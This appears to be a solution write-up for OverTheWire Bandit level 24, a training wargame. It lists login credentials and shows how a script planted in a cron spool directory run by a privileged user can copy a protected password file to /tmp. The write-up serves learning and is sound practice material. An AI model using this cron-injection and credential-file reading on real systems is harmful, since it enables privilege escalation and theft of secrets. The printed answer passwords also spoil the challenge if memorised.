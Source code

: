 # [Level 24](https://overthewire.org/wargames/bandit/bandit24.html)

## Level Goal

A program is running automatically at regular intervals from `cron`, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

`NOTE:` This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

`NOTE 2:` Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

    cron, crontab, crontab(5) (use “man 5 crontab” to access this)

## Authentication Details

    Username : bandit23
    Password : QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solution Steps

``` 
ssh bandit.labs.overthewire.org -p 2220 -l bandit23

ls /etc/cron.d

cat /etc/cron.d/cronjob_bandit24

cat /usr/bin/cronjob_bandit24.sh

echo "cat /etc/bandit_pass/bandit24 >> /tmp/bandit24_pass.txt" >> /var/spool/bandit24/foo/pass.sh && chmod +x /var/spool/bandit24/foo/pass.sh

sleep 1m

cat /tmp/bandit24_pass.txt
```

## Password for next level

    VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar